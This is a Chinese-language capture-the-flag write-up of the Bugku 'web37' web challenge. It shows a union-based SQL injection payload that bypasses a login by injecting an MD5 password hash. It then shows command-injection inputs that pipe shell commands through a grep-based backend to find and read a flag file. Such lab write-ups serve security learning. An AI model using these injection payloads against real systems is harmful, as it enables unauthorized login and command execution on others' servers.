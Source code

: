 # web37

![img](../../../image/bugku/4483045190622.png)

题目描述
> union，命令执行

![img](../../../image/bugku/5482046193126.png)

进入题目之后是一个post表单
估计是sql注入
使用**单引号`'`**
来尝试看看有没有注入点
![img](../../../image/bugku/4709116204958.png)
返回有一串疑似base64编码的东西
解码一下
![img](../../../image/bugku/4886017205567.png)
得到一串源码
这是要要求查询结果不能为空
而且还需要回显的password等于passwrod的md5值
根据题目描述的提示
> **union**

使用联合查询来写入password的值
![img](../../../image/bugku/5076522232522.png)
所以构造payload1
```sql
username=-1' union select 1,'25d55ad283aa400af464c76d713c07ad'%23&password=12345678
```
![img](../../../image/bugku/5381723214735.png)

登录成功
![img](../../../image/bugku/1513624204033.png)
进入到这里
再通过题目描述的提示
> 命令执行

来查看flag
payload2
```shell
find / -name flag
```
![img](../../../image/bugku/54126200284.png)

结果没有任何回显
![img](../../../image/bugku/5092026212513.png)

emmm
输入一个ls
![img](../../../image/bugku/5923732219849.png)

发现回显了它后台执行的语句
`sh -c ps -aux | grep ls`

重点是这个`grep`
`grep`是可以使用管道符把执行结果作为参数传给下一个命令
![img](../../../image/bugku/5706136205578.png)

那payload3
```shell
1324|find / -name flag
```
![img](../../../image/bugku/4962629217552.png)

还是无回显
![img](../../../image/bugku/3740930218847.png)
这样可以试试传入文件中进行查看
![img](../../../image/bugku/4191935220026.png)

payload4
```shell
1|find / -name flag > flag
```
然后查看
![img](../../../image/bugku/1921140221857.png)

![img](../../../image/bugku/5714740214902.png)

查看到了有两个地方有flag
不知道哪个是真的
那就每个都试试看
payload5
```shell
1|cat /var/www/html/flag > flag
```
![img](../../../image/bugku/3919942211669.png)
啥都没有
那就是根目录下的那一个了

payload6
```shell
1|cat /flag > flag
```
![img](../../../image/bugku/3156944202000.png)
得到flag
